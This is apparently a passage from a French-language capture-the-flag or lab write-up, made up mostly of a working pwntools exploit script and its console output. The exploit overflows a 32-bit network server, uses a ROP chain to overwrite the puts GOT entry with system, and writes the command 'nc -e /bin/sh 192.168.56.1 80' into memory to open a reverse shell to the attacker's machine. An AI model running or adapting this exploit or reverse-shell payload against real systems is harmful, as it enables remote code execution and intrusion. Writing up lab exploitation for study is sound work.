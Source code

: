 ```python
PUTS_PLT = ELF_LOADED.plt['puts']
EXIT_PLT = ELF_LOADED.plt['exit']
PUTS_GOT = ELF_LOADED.got['puts']
log.info("puts plt: " + hex(PUTS_PLT))
log.info("puts got: " + hex(PUTS_GOT))

puts_offset = LIBC.symbols["puts"]
system_offset = LIBC.symbols["system"]
log.info(f"puts offset in libc: {hex(puts_offset)}")
log.info(f"system offset in libc: {hex(system_offset)}")

puts2system = ctypes.c_uint32(system_offset - puts_offset).value
log.info(f"puts to system requires adding {hex(puts2system)} to memory address")

payload = b"GET HTTP/" + b"A" * (1020-5)
payload += write_command("nc -e /bin/sh 192.168.56.1 80")

payload += write_to(puts2system, PUTS_GOT)
payload += p32(PUTS_PLT)
payload += p32(EXIT_PLT)
payload += p32(BSS)

payload += b"\r\n"
r = remote(TARGET, 65535)
r.send(payload)
r.close()
```

J'ai écrit une fonction `write_to` qui construit la ROP chain permettant d'écrire un DWORD donné à l'adresse choisie puis une fonction de plus haut niveau `write_command` qui découpe une ligne de commande en morceaux de 4 octets et les écrits les uns après les autres dans le `bss`.

Une fois que `puts` est écrasé et notre commande placée en mémoire on utilise juste la pile pour faire un `puts(commande)` (donc `system(commande)`).

```console
$ python exploit.py remote
[*] '/tmp/libc.so'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/tmp/server'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] BSS address is at 0x804b08c
[*] puts plt: 0x8048730
[*] puts got: 0x804b03c
[*] puts offset in libc: 0x5f880
[*] system offset in libc: 0x3ab40
[*] puts to system requires adding 0xfffdb2c0 to memory address
[+] Opening connection to 192.168.56.187 on port 65535: Done
[*] Closed connection to 192.168.56.187 port 65535
```
